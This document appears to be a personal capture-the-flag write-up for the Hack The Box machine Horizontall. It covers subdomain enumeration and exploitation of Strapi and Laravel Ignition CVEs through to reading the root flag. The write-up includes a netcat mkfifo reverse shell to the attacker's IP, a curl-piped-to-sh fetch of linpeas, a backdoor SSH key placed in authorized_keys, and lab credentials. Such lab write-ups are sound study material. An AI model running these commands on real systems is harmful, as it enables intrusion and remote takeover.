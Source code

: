 Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
 `victim -$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 5555 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
 `attack -$ nc -lnvp <lister port> :: $whoami strapi` 
 `attack -$ cat /home/developer/user.txt :: e0a070503b5ecb060d4ec125c811270b`

---
**Root::**
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: No luck
  + netstat -nutpl :: 
  + 8000 - curl: Laravel v8 (PHP v7.4.18)
  + 3306 - mysql
  + 22 - ssh
  + 1337 - "welcome to your api - Welcome."

##**Linpeas.sh::**##
```
+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)

UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u :: No luck
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc No luck
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit(2)
    exploit: CVE-2021-3129_exploit || laravel-igition-rce
```

##**CVE-2021-3129 - laravel-igition-rce**##
serve file: `$ python -m http.server 8080`
attacker  ` $ cd tmp/ && wget http://<attack-ip>:8080/laravelexploit.py laravelexploit.py`
`chmod +x laravelexploit.py`
`$ php -d\'phar.readonly=0\' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system id\n`
`$ ./laravelexlpoit.py http://127.0.0.1:8000 path/to/exploit.phar`
Does NOT WORK:: 

##**SSH::**##
```
attacker: ssh-keygen -t rsa -C "random comment"
attacker: ${cat id_rsa.pub}
victim ~/.ssh/: echo ${cat id_rsa.pub} >> authorized_keys
attacker:ssh -L 8000:127.0.0.1:8000 strapi@10.10.11.105 :: see![rev_tunnel](Screenshots/horizontall_ssh_rev_tunnel.png)
searchsploit laravel:: /usr/share/exploitdb/exploits/webapps/php/49424.py
```
W/ ssh_rev_tunnel 127.0.0.1:8000 is now accessible. 

attacker: 'python3 ./49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'cat /root/root.txt''
root:: 2d171f3a6561a8f1db0e27b8d3be6546 see ![path_diff](Screenshots/horizontall_path_script_change_phpggc.png)
---
**References::**
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[lavarel_exploit2](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py)
